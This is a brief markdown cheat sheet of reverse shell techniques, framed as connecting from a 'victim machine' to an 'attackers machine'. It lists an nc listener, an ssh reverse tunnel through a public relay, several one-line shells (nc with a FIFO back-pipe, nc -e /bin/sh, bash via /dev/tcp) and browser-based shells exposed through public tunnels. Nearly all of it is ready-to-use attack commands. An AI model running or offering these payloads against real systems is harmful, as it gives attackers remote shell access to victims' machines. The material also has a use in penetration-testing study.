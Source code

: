 # terminal reverse shell

## open listener port on attackers machine
* `nc -v -lp 443`
* macOS `nc -v -l 443`

#### optional - get public address by creating a tcp reverse tunnel
`ssh -R 443:localhost:443 serveo.net`


## reverse connect from victim machine to attackers machine
### bash

* nc
  * with fifo back pipe
    `BACKPIPE=/tmp/backpipe; rm -f $BACKPIPE; mkfifo $BACKPIPE; nc $ATTACKER_ADDRESS $ATTACKER_PORT 0<$BACKPIPE | /bin/sh >$BACKPIPE 2>&1`
  * with `-e` option
    `nc ATTACKER_ADDRESS:ATTACKER_PORT –e /bin/sh`
* bash
  `/bin/bash -c '/bin/bash -i >& /dev/tcp/${0/://} 0>&1' localhost:8000`

# browser reverse shell - ttyd
`docker run --rm -p 8080:7681 tsl0922/ttyd`
`ssh -R 80:localhost:8080 nokey@localhost.run`


# browser reverse shell - tty-share
`docker run --rm -it elisescu/tty-share --public`

